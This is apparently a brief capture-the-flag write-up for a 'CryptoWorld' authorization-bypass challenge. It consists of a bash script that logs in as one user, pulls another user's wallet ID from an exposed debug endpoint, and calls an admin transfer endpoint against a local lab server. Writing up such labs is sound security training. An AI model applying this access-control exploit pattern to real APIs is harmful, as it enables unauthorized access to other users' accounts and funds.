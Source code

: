 # CryptoWorld : Simple BOLA challenge 

## Author: h1dr1

## Description: A simple BOFLA challenge that uses a simple API to get the flag.

The same as the prvious challenge
we need to check the vulnerable debug endpoint to look for our vulnerable function
```
#!/bin/bash

# Step 1: Login as Mohamed
TOKEN=$(curl -s -X POST "http://localhost:8000/api/login" \
-H "Content-Type: application/json" \
-d '{"username":"Mohamed"}' | jq -r '.access_token')

# Step 2: Get Kamel's ETH wallet ID from debug endpoint
Kamel_wallet=$(curl -s -X GET "http://localhost:8000/api/debug" \
-H "Authorization: Bearer $TOKEN" | jq -r '.Kamel_eth_wallet_id')

# Step 3: Exploit BOFLA to get the flag
curl -X POST "http://localhost:8000/api/admin/transfer_admin/$Kamel_wallet" \
-H "Authorization: Bearer $TOKEN" \
-H "Content-Type: application/json" \
-d '{"amount": 1, "currency": "ETH"}'

```


